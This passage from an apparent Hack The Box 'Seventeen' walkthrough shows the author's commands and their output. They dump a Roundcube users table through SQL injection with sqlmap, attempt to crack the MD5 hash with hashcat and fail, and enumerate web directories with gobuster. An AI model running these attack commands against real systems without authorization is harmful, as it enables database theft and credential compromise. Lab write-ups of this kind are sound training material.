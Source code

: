 ```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch -D roundcubedb -T users --dump

...SNIP...

Database: roundcubedb
Table: users
[1 entry]
+---------+---------------------+------------+-----------+------------+---------------------+-------------------------------------------------------------------+---------------------+----------------------+
| user_id | created             | username   | mail_host | language   | last_login          | preferences                                                       | failed_login        | failed_login_counter |
+---------+---------------------+------------+-----------+------------+---------------------+-------------------------------------------------------------------+---------------------+----------------------+
| 1       | 2022-03-19 21:30:30 | smtpmailer | localhost | en_US      | 2022-03-22 13:41:05 | a:1:{s:11:"client_hash";s:32:"0db936ce29d4c4d2a2f82db8b3d7870c";} | 2022-03-23 15:32:37 | 3                    |
+---------+---------------------+------------+-----------+------------+---------------------+-------------------------------------------------------------------+---------------------+----------------------+
```

I tried to crack the found hash, but it was not crackable.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ hashcat -m 0 -a 0 roundcubedb_users.md5 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...SNIP...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Approaching final keyspace - workload adjusted.           

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: 0db936ce29d4c4d2a2f82db8b3d7870c
```

I found `/CHANGELOG` sub page which might contains version information.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ gobuster dir -u http://mastermailer.seventeen.htb:8000/mastermailer -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mastermailer.seventeen.htb:8000/mastermailer
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
```